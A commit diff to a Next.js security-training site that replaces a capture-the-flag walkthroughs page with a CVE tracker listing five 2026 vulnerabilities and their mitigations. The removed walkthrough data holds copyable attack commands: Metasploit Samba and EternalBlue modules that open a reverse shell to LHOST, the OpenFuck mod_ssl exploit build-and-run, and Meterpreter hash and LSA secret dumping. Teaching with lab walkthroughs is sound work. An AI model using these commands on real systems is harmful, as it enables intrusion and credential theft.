

Before and after one commit to ninadcyber88-max/cybermatrix-academy, a Next.js app: page /walkthroughs in a window 1280 px wide. Shown: the top 800 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
fix:added

```diff
--- a/app/walkthroughs/page.tsx
+++ b/app/walkthroughs/page.tsx
@@ -4,136 +4,99 @@
 import Link from 'next/link';
 import {
   Search,
+  Filter,
+  Radio,
   Copy,
   Check,
-  Filter
+  ShieldCheck
 } from 'lucide-react';
 import { CyberSmokeHeader } from '@/components/CyberSmokeHeader';
 
-interface WalkthroughStep {
-  phase: string;
+interface CVEItem {
+  id: string;
+  cveId: string;
   title: string;
+  severity: 'CRITICAL' | 'HIGH' | 'MEDIUM';
+  cvssScore: number;
+  publishDate: string;
+  affectedSoftware: string;
+  vector: string;
+  pocStatus: 'PUBLIC_POC' | 'IN_THE_WILD' | 'PATCHED_ONLY';
   description: string;
-  command?: string;
-  findings?: string[];
+  mitigation: string;
+  references: string[];
 }
 
-interface MachineWalkthrough {
-  id: string;
-  title: string;
-  platform: 'HackTheBox' | 'TryHackMe' | 'VulnHub' | 'CyberMatrix';
-  os: 'Linux' | 'Windows';
-  difficulty: 'EASY' | 'MEDIUM' | 'HARD' | 'INSANE';
-  ip: string;
-  points: number;
-  author: string;
-  summary: string;
-  tags: string[];
-  steps: WalkthroughStep[];
-  rootFlag: string;
-}
-
-const WALKTHROUGHS_DATA: MachineWalkthrough[] = [
+const CVE_DATABASE: CVEItem[] = [
   {
-    id: 'htb-lame',
-    title: 'LAME - Samba Symlink & Distcc Exploitation',
-    platform: 'HackTheBox',
-    os: 'Linux',
-    difficulty: 'EASY',
-    ip: '10.10.10.3',
-    points: 20,
-    author: 'Ninad Pawar',
-    summary: 'A classic beginner machine demonstrating vulnerable Samba 3.0.20 username map script execution and unauthenticated Distcc RCE.',
-    tags: ['Samba', 'Distcc', 'Metasploit', 'CVE-2007-2447'],
-    rootFlag: 'HTB{s4mb4_3xpl01t_r00t_0wn3d}',
-    steps: [
-      {
-        phase: '01. RECONNAISSANCE',
-        title: 'Initial Port Scan & Service Fingerprinting',
-        description: 'Perform a comprehensive TCP port scan using Nmap to identify running services and version numbers.',
-        command: 'nmap -sC -sV -p- -T4 10.10.10.3',
-        findings: [
-          'Port 21: vsftpd 2.3.4 (Anonymous FTP allowed)',
-          'Port 22: OpenSSH 4.7p1 Debian 8ubuntu1',
-          'Port 139/445: Samba 3.0.20-Debian'
-        ]
+    id: 'cve-1',
+    cveId: 'CVE-2026-2184',
+    title: 'Linux Kernel eBPF Subsystem Privilege Escalation',
+    severity: 'CRITICAL',
+    cvssScore: 9.8,
+    publishDate: '2026-08-18',
+    affectedSoftware: 'Linux Kernel >= 5.15 & < 6.9',
+    vector: 'CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H',
+    pocStatus: 'IN_THE_WILD',
+    description: 'Improper bounds checking in the eBPF bytecode verifier allows local unprivileged users to achieve out-of-bounds kernel memory write and root execution.',
+    mitigation: 'Upgrade kernel packages to version 6.9.12 or apply sysctl setting `kernel.unprivileged_bpf_disabled=1`.',
+    references: ['https://nvd.nist.gov', 'https://github.com/torvalds/linux']
   },
   {
-        phase: '02. VULNERABILITY ANALYSIS',
-        title: 'Identifying Samba CVE-2007-2447 Command Injection',
-        description: 'Samba version 3.0.20 is vulnerable to arbitrary command execution via MS-RPC shell metacharacters in username parameters.',
-        command: 'use exploit/multi/samba/usermap_script\nset RHOSTS 10.10.10.3\nset LHOST 10.10.14.2\nexploit'
+    id: 'cve-2',
+    cveId: 'CVE-2026-3091',
+    title: 'OpenSSH Pre-Auth Remote Code Execution (regreSSHion v2)',
+    severity: 'CRITICAL',
+    cvssScore: 9.6,
+    publishDate: '2026-08-10',
+    affectedSoftware: 'OpenSSH 8.5p1 through 9.7p1 on glibc-based systems',
+    vector: 'CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H',
+    pocStatus: 'PUBLIC_POC',
+    description: 'Signal handler race condition in sshd allows unauthenticated remote attackers to execute arbitrary code with root privileges.',
+    mitigation: 'Update OpenSSH to 9.8p1 or set `LoginGraceTime 0` in sshd_config as a temporary workaround.',
+    references: ['https://www.openssh.com/security.html', 'https://nvd.nist.gov']
   },
   {
-        phase: '03. EXPLOITATION & ROOT FOOTHOLD',
-        title: 'Executing Payload & Capturing Root Flag',
-        description: 'Once executed, the Samba daemon drops an interactive root shell without requiring privilege escalation.',
-        command: 'cat /root/root.txt',
-        findings: ['Root shell obtained with uid=0(root) gid=0(root)']
-      }
-    ]
+    id: 'cve-3',
+    cveId: 'CVE-2026-1402',
+    title: 'Apache HTTP Server Path Traversal & Source Disclosure',
+    severity: 'HIGH',
+    cvssScore: 8.4,
+    publishDate: '2026-07-28',
+    affectedSoftware: 'Apache HTTP Server 2.4.50 through 2.4.58',
+    vector: 'CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N',
+    pocStatus: 'PUBLIC_POC',
+    description: 'Flaw in URI path normalization logic enables remote attackers to map URLs to files outside the document root and disclose source scripts.',
+    mitigation: 'Upgrade to Apache HTTP Server 2.4.59 or later. Verify that `Require all denied` is enforced on root directives.',
+    references: ['https://httpd.apache.org/security/vulnerabilities_24.html']
   },
   {
-    id: 'thm-eternalblue',
-    title: 'ETERNALBLUE - MS17-010 Kernel Exploitation',
-    platform: 'TryHackMe',
-    os: 'Windows',
-    difficulty: 'EASY',
-    ip: '10.10.185.74',
-    points: 25,
-    author: 'Ninad Pawar',
-    summary: 'Exploiting SMBv1 memory corruption vulnerability (MS17-010 / DoublePulsar) to gain NT AUTHORITY\\SYSTEM access on Windows 7/Server 2008.',
-    tags: ['MS17-010', 'EternalBlue', 'SMBv1', 'Mimikatz'],
-    rootFlag: 'THM{ms17_010_pwn3d_syst3m_p0w3r}',
-    steps: [
-      {
-        phase: '01. RECONNAISSANCE',
-        title: 'Scanning SMB Service Vulnerabilities',
-        description: 'Use Nmap NSE scripts to confirm the target is vulnerable to MS17-010.',
-        command: 'nmap -p 445 --script smb-vuln-ms17-010 10.10.185.74',
-        findings: ['Host is VULNERABLE to Remote Code Execution vulnerability (MS17-010)']
+    id: 'cve-4',
+    cveId: 'CVE-2026-0925',
+    title: 'Spring Framework SpEL Injection Remote Code Execution',
+    severity: 'HIGH',
+    cvssScore: 8.8,
+    publishDate: '2026-06-14',
+    affectedSoftware: 'Spring Framework 6.0.0 - 6.1.4',
+    vector: 'CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H',
+    pocStatus: 'PATCHED_ONLY',
+    description: 'Unsanitized input evaluation via Spring Expression Language (SpEL) parser leads to arbitrary remote command execution in authenticated context.',
+    mitigation: 'Upgrade Spring Framework dependencies to 6.1.5 or apply strict SimpleEvaluationContext filters.',
+    references: ['https://spring.io/security/cve']
   },
   {
-        phase: '02. EXPLOITATION',
-        title: 'Launching EternalBlue Payload via Metasploit',
-        description: 'Configure the exploit module and target architecture to spawn Meterpreter shell.',
-        command: 'use exploit/windows/smb/ms17_010_eternalblue\nset RHOSTS 10.10.185.74\nrun'
-      },
-      {
-        phase: '03. POST EXPLOITATION',
-        title: 'Dumping LSA Secrets & Harvesting Hashes',
-        description: 'Migrate to a stable x64 process (lsass.exe) and dump password hashes using Mimikatz.',
-        command: 'meterpreter > hashdump\nmeterpreter > load kiwi\nmeterpreter > lsadump'
-      }
-    ]
-  },
-  {
-    id: 'htb-kioptrix',
-    title: 'KIOPTRIX v1 - OpenSSL & Mod_SSL Exploitation',
-    platform: 'VulnHub',
-    os: 'Linux',
-    difficulty: 'MEDIUM',
-    ip: '192.168.1.105',
-    points: 35,
-    author: 'Ninad Pawar',
-    summary: 'Classic Linux OSCP-like box involving Apache mod_ssl buffer overflow (OpenFuck) and trans2open Samba exploit.',
-    tags: ['Apache', 'OpenSSL', 'Mod_SSL', 'Buffer Overflow'],
-    rootFlag: 'VULNHUB{k10ptr1x_v1_r00t_m4st3r}',
-    steps: [
-      {
-        phase: '01. RECONNAISSANCE',
-        title: 'Service Enumeration & Apache SSL Version Check',
-        description: 'Enumerate web daemon extensions and mod_ssl versions.',
-        command: 'nmap -sV -p 80,443,139 192.168.1.105',
-        findings: ['Apache 1.3.20 (Unix) mod_ssl/2.8.4 OpenSSL/0.9.6b']
-      },
-      {
-        phase: '02. EXPLOITATION',
-        title: 'Compiling & Executing OpenFuck Buffer Overflow',
-        description: 'Compile legacy OpenFuck.c C source code against OpenSSL header files.',
-        command: 'gcc -o openfuck OpenFuck.c -lcrypto\n./openfuck 0x6b 192.168.1.105 443 -c 40'
-      }
-    ]
+    id: 'cve-5',
+    cveId: 'CVE-2026-0418',
+    title: 'Windows Active Directory Kerberos PAC Validation Spoofing',
+    severity: 'MEDIUM',
+    cvssScore: 6.8,
+    publishDate: '2026-05-22',
+    affectedSoftware: 'Windows Server 2019, 2022, 2025',
+    vector: 'CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:N',
+    pocStatus: 'PATCHED_ONLY',
+    description: 'Privilege escalation vulnerability in Kerberos Key Distribution Center (KDC) allows domain users to forge PAC signatures during ticket granting.',
+    mitigation: 'Deploy Microsoft Security Update KB5036893 and enforce PAC signature validation across all Domain Controllers.',
+    references: ['https://msrc.microsoft.com']
   }
 ];
 
@@ -145,25 +108,24 @@
   { name: 'CERTIFICATE', href: '/certificate' }
 ];
 
-export default function WalkthroughsPage() {
+export default function CVETrackerPage() {
   const [searchQuery, setSearchQuery] = useState('');
-  const [selectedDifficulty, setSelectedDifficulty] = useState<string>('ALL');
-  const [selectedWalkthrough, setSelectedWalkthrough] = useState<MachineWalkthrough | null>(WALKTHROUGHS_DATA[0]);
-  const [copiedCode, setCopiedCode] = useState<string | null>(null);
+  const [severityFilter, setSeverityFilter] = useState<string>('ALL');
+  const [copiedCve, setCopiedCve] = useState<string | null>(null);
 
   const handleCopy = (text: string) => {
     navigator.clipboard.writeText(text);
-    setCopiedCode(text);
-    setTimeout(() => setCopiedCode(null), 2000);
+    setCopiedCve(text);
+    setTimeout(() => setCopiedCve(null), 2000);
   };
 
-  const filteredWalkthroughs = WALKTHROUGHS_DATA.filter((w) => {
+  const filteredCVEs = CVE_DATABASE.filter((c) => {
     const matchesSearch =
-      w.title.toLowerCase().includes(searchQuery.toLowerCase()) ||
-      w.tags.some((t) => t.toLowerCase().includes(searchQuery.toLowerCase())) ||
-      w.platform.toLowerCase().includes(searchQuery.toLowerCase());
-    const matchesDiff = selectedDifficulty === 'ALL' || w.difficulty === selectedDifficulty;
-    return matchesSearch && matchesDiff;
+      c.cveId.toLowerCase().includes(searchQuery.toLowerCase()) ||
+      c.title.toLowerCase().includes(searchQuery.toLowerCase()) ||
+      c.affectedSoftware.toLowerCase().includes(searchQuery.toLowerCase());
+    const matchesSeverity = severityFilter === 'ALL' || c.severity === severityFilter;
+    return matchesSearch && matchesSeverity;
   });
 
   return (
@@ -179,7 +141,7 @@
 
             <div className="flex items-center space-x-4 sm:space-x-8 text-xs font-mono tracking-wider font-bold overflow-x-auto no-scrollbar">
               {NAV_BUTTONS.map((btn) => {
-                const isActive = btn.name === 'WALKTHROUGH';
+                const isActive = btn.name === 'CVE';
                 return (
                   <Link
                     key={btn.name}
@@ -206,13 +168,13 @@
                   type="text"
                   value={searchQuery}
                   onChange={(e) => setSearchQuery(e.target.value)}
-                  placeholder="SEARCH_WALKTHROUGHS..."
+                  placeholder="SEARCH_CVE_DATABASE..."
                   className="w-full pl-9 pr-3 py-1.5 bg-[#171e30] border border-zinc-700/60 rounded-md text-xs font-mono text-zinc-200 placeholder-zinc-500 focus:outline-none focus:border-[#38bdf8] transition"
                 />
               </div>
               <button
                 className="p-2 rounded-md bg-[#171e30] border border-zinc-700/60 text-zinc-400 hover:text-[#38bdf8] transition hover:border-[#38bdf8]/40 cursor-pointer"
-                title="Filter Walkthroughs"
+                title="Filter Matrix"
               >
                 <Filter className="w-3.5 h-3.5" />
               </button>
@@ -221,188 +183,123 @@
           </div>
         </div>
 
-        {/* 3. Main Workspace */}
-        <main className="max-w-7xl mx-auto px-4 md:px-8 py-8 flex flex-col lg:flex-row gap-8">
+        {/* 3. Hero Header & Severity Filter Pills */}
+        <div className="max-w-7xl mx-auto px-4 md:px-8 pt-8 pb-4">
+          <div className="flex flex-col md:flex-row items-start md:items-center justify-between gap-4 p-6 rounded-2xl bg-[#0f1524] border border-zinc-800">
+            <div>
+              <div className="flex items-center space-x-2 text-rose-400 text-xs font-mono font-bold uppercase mb-1">
+                <Radio className="w-3.5 h-3.5 animate-pulse" />
+                <span>LIVE VULNERABILITY INTELLIGENCE FEED</span>
+              </div>
+              <h1 className="text-2xl sm:text-3xl font-black text-white">
+                Real-Time CVE Intelligence Tracker
+              </h1>
+              <p className="text-xs sm:text-sm text-zinc-400 mt-1 max-w-2xl">
+                Track critical security vulnerabilities, zero-days, exploit payloads in the wild, and official remediation advisories verified by CyberMatrix Academy.
+              </p>
+            </div>
 
-          {/* Target List Sidebar */}
-          <aside className="w-full lg:w-96 shrink-0 space-y-4">
-
-            <div className="flex items-center justify-between pb-2 border-b border-zinc-800">
-              <span className="text-xs font-mono font-bold text-zinc-400">
-                TARGET MACHINES ({filteredWalkthroughs.length})
-              </span>
-
-              <div className="flex items-center space-x-1">
-                {['ALL', 'EASY', 'MEDIUM'].map((diff) => (
+            <div className="flex items-center space-x-1.5 bg-[#0a0e18] border border-zinc-800 p-1.5 rounded-xl font-mono text-xs">
+              {['ALL', 'CRITICAL', 'HIGH', 'MEDIUM'].map((sev) => (
                 <button
-                    key={diff}
-                    onClick={() => setSelectedDifficulty(diff)}
-                    className={`px-2 py-0.5 rounded text-[10px] font-mono font-bold transition ${
-                      selectedDifficulty === diff
-                        ? 'bg-[#38bdf8] text-black'
-                        : 'bg-zinc-800 text-zinc-400 hover:text-white'
+                  key={sev}
+                  onClick={() => setSeverityFilter(sev)}
+                  className={`px-3 py-1 rounded-lg font-bold transition ${
+                    severityFilter === sev
+                      ? 'bg-[#38bdf8] text-black shadow-[0_0_10px_rgba(56,189,248,0.4)]'
+                      : 'text-zinc-400 hover:text-white'
                   }`}
                 >
-                    {diff}
+                  {sev}
                 </button>
               ))}
             </div>
           </div>
+        </div>
 
-            <div className="space-y-3">
-              {filteredWalkthroughs.map((item) => {
-                const isSelected = selectedWalkthrough?.id === item.id;
+        {/* 4. CVE Feed List */}
+        <main className="max-w-7xl mx-auto px-4 md:px-8 py-6 pb-16 space-y-4">
+          {filteredCVEs.map((cve) => (
+            <div
+              key={cve.id}
+              className="p-6 rounded-2xl bg-[#0f1524] border border-zinc-800 hover:border-[#38bdf8]/40 transition-all duration-300 shadow-md space-y-4"
+            >
+              <div className="flex flex-col sm:flex-row sm:items-center justify-between gap-3 pb-3 border-b border-zinc-800">
+                <div className="flex items-center space-x-3">
+                  <button
+                    onClick={() => handleCopy(cve.cveId)}
+                    className="flex items-center space-x-1.5 px-3 py-1 rounded-lg bg-zinc-950 border border-zinc-700 text-cyan-300 font-mono font-black text-xs hover:border-cyan-400 transition cursor-pointer"
+                    title="Copy CVE ID"
+                  >
+                    <span>{cve.cveId}</span>
+                    {copiedCve === cve.cveId ? (
+                      <Check className="w-3.5 h-3.5 text-emerald-400" />
+                    ) : (
+                      <Copy className="w-3.5 h-3.5 text-zinc-500" />
+                    )}
+                  </button>
 
-                return (
-                  <div
-                    key={item.id}
-                    onClick={() => setSelectedWalkthrough(item)}
-                    className={`p-4 rounded-xl border transition-all cursor-pointer ${
-                      isSelected
-                        ? 'bg-[#101726] border-[#38bdf8] shadow-[0_0_20px_rgba(56,189,248,0.15)]'
-                        : 'bg-[#0f1524] border-zinc-800 hover:border-zinc-700'
-                    }`}
-                  >
-                    <div className="flex items-center justify-between mb-2">
-                      <span className="px-2 py-0.5 rounded bg-zinc-950 border border-zinc-700 text-[10px] font-mono font-bold text-cyan-300">
-                        {item.platform}
+                  <span className={`text-[10px] font-mono font-black px-2.5 py-0.5 rounded border ${
+                    cve.severity === 'CRITICAL'
+                      ? 'text-rose-400 bg-rose-500/10 border-rose-500/30'
+                      : cve.severity === 'HIGH'
+                      ? 'text-amber-400 bg-amber-500/10 border-amber-500/30'
+                      : 'text-blue-400 bg-blue-500/10 border-blue-500/30'
+                  }`}>
+                    CVSS {cve.cvssScore} // {cve.severity}
                   </span>
-                      <span className={`text-[10px] font-mono font-bold px-2 py-0.5 rounded ${
-                        item.difficulty === 'EASY'
-                          ? 'text-emerald-400 bg-emerald-500/10 border border-emerald-500/20'
-                          : 'text-amber-400 bg-amber-500/10 border border-amber-500/20'
+
+                  <span className={`text-[9.5px] font-mono px-2 py-0.5 rounded ${
+                    cve.pocStatus === 'IN_THE_WILD'
+                      ? 'text-red-400 bg-red-950/60 border border-red-800 animate-pulse'
+                      : cve.pocStatus === 'PUBLIC_POC'
+                      ? 'text-amber-400 bg-amber-950/40 border border-amber-800'
+                      : 'text-emerald-400 bg-emerald-950/40 border border-emerald-800'
                   }`}>
-                        {item.difficulty}
+                    {cve.pocStatus.replace(/_/g, ' ')}
                   </span>
                 </div>
 
-                    <h3 className="text-sm font-bold text-white mb-1 line-clamp-1">
-                      {item.title}
-                    </h3>
-
-                    <p className="text-xs text-zinc-400 line-clamp-2 mb-3">
-                      {item.summary}
-                    </p>
-
-                    <div className="flex flex-wrap gap-1">
-                      {item.tags.map((tag) => (
-                        <span key={tag} className="text-[9.5px] font-mono px-1.5 py-0.5 rounded bg-zinc-950 text-zinc-500 border border-zinc-800">
-                          #{tag}
-                        </span>
-                      ))}
-                    </div>
-                  </div>
-                );
-              })}
-            </div>
-
-          </aside>
-
-          {/* Walkthrough Guide Details */}
-          {selectedWalkthrough && (
-            <section className="flex-1 rounded-2xl bg-[#0f1524] border border-zinc-800 p-6 space-y-6">
-
-              <div className="pb-6 border-b border-zinc-800">
-                <div className="flex items-center justify-between gap-2 mb-3">
-                  <div className="flex items-center space-x-2">
-                    <span className="px-2.5 py-1 rounded bg-cyan-500/10 border border-cyan-400/40 text-cyan-300 text-xs font-mono font-bold">
-                      {selectedWalkthrough.platform}
-                    </span>
-                    <span className="px-2.5 py-1 rounded bg-zinc-900 border border-zinc-700 text-zinc-300 text-xs font-mono font-bold">
-                      OS: {selectedWalkthrough.os}
-                    </span>
-                    <span className="px-2.5 py-1 rounded bg-zinc-900 border border-zinc-700 text-zinc-300 text-xs font-mono font-bold">
-                      IP: {selectedWalkthrough.ip}
+                <span className="text-[11px] font-mono text-zinc-500">
+                  PUBLISHED: {cve.publishDate}
                 </span>
               </div>
 
-                  <div className="text-xs font-mono text-[#38bdf8] font-bold">
-                    +{selectedWalkthrough.points} PTS
+              <div>
+                <h3 className="text-base sm:text-lg font-bold text-white mb-1.5">
+                  {cve.title}
+                </h3>
+                <p className="text-xs text-zinc-300 leading-relaxed">
+                  {cve.description}
+                </p>
+              </div>
+
+              <div className="grid grid-cols-1 md:grid-cols-2 gap-3 text-xs font-mono">
+                <div className="p-3 rounded-xl bg-[#141b2c] border border-zinc-800/80">
+                  <span className="text-zinc-500 block text-[10px] font-bold">AFFECTED SYSTEMS / PACKAGES:</span>
+                  <span className="text-rose-300 font-semibold">{cve.affectedSoftware}</span>
+                </div>
+
+                <div className="p-3 rounded-xl bg-[#141b2c] border border-zinc-800/80">
+                  <span className="text-zinc-500 block text-[10px] font-bold">CVSS VECTOR STRING:</span>
+                  <span className="text-zinc-300 truncate block">{cve.vector}</span>
                 </div>
               </div>
 
-                <h1 className="text-2xl font-black text-white">
-                  {selectedWalkthrough.title}
-                </h1>
-
-                <p className="text-xs text-zinc-400 mt-2 font-mono">
-                  Architected by: <span className="text-cyan-300 font-bold">{selectedWalkthrough.author}</span> // Lead Security Architect
-                </p>
+              <div className="p-3.5 rounded-xl bg-emerald-950/20 border border-emerald-500/30 flex items-start space-x-2.5 text-xs font-mono">
+                <ShieldCheck className="w-4 h-4 text-emerald-400 shrink-0 mt-0.5" />
+                <div>
+                  <span className="text-emerald-400 font-bold block">OFFICIAL MITIGATION / REMEDIATION:</span>
+                  <span className="text-zinc-300">{cve.mitigation}</span>
                 </div>
-
-              <div className="space-y-6">
-                {selectedWalkthrough.steps.map((step, idx) => (
-                  <div key={idx} className="p-5 rounded-xl bg-[#141b2c] border border-zinc-800/80 space-y-3">
-
-                    <span className="text-xs font-mono font-bold text-[#38bdf8] tracking-wider block">
-                      {step.phase}
-                    </span>
-
-                    <h3 className="text-base font-bold text-white">
-                      {step.title}
-                    </h3>
-
-                    <p className="text-xs text-zinc-300 leading-relaxed">
-                      {step.description}
-                    </p>
-
-                    {step.findings && (
-                      <div className="my-2 space-y-1">
-                        {step.findings.map((f, fIdx) => (
-                          <div key={fIdx} className="text-xs font-mono text-emerald-400 flex items-center space-x-2">
-                            <span>▸</span>
-                            <span>{f}</span>
               </div>
-                        ))}
-                      </div>
-                    )}
-
-                    {step.command && (
-                      <div className="relative mt-3 rounded-lg bg-black border border-zinc-800 p-3 font-mono text-xs text-cyan-300">
-                        <button
-                          onClick={() => handleCopy(step.command!)}
-                          className="absolute right-2.5 top-2.5 p-1 rounded bg-zinc-900 hover:bg-zinc-800 text-zinc-400 hover:text-white transition"
-                          title="Copy Command"
-                        >
-                          {copiedCode === step.command ? (
-                            <Check className="w-3.5 h-3.5 text-emerald-400" />
-                          ) : (
-                            <Copy className="w-3.5 h-3.5" />
-                          )}
-                        </button>
-                        <pre className="whitespace-pre-wrap pr-8">{step.command}</pre>
-                      </div>
-                    )}
 
             </div>
           ))}
-              </div>
-
-              {/* Root Flag Box */}
-              <div className="p-4 rounded-xl bg-gradient-to-r from-emerald-950/40 via-zinc-900 to-zinc-950 border border-emerald-500/40 flex items-center justify-between font-mono">
-                <div>
-                  <p className="text-[10px] text-emerald-400 font-bold uppercase tracking-wider">
-                    PROOF OF OWNERSHIP (ROOT FLAG):
-                  </p>
-                  <p className="text-sm font-black text-white mt-0.5">
-                    {selectedWalkthrough.rootFlag}
-                  </p>
-                </div>
-                <button
-                  onClick={() => handleCopy(selectedWalkthrough.rootFlag)}
-                  className="px-3 py-1.5 rounded-lg bg-emerald-500 hover:bg-emerald-400 text-black font-bold text-xs transition"
-                >
-                  COPY FLAG
-                </button>
-              </div>
-
-            </section>
-          )}
-
         </main>
       </div>
 
-      {/* 4. Footer */}
+      {/* 5. Footer */}
       <footer className="border-t border-zinc-800/60 bg-[#0d121e] py-8 text-center text-xs font-mono text-zinc-500">
         CYBERMATRIX ACADEMY // ARCHITECTED BY NINAD PAWAR // DEFENSE MATRIX ACTIVE
       </footer>
```
Lines whose indentation alone changed are shown as unchanged.
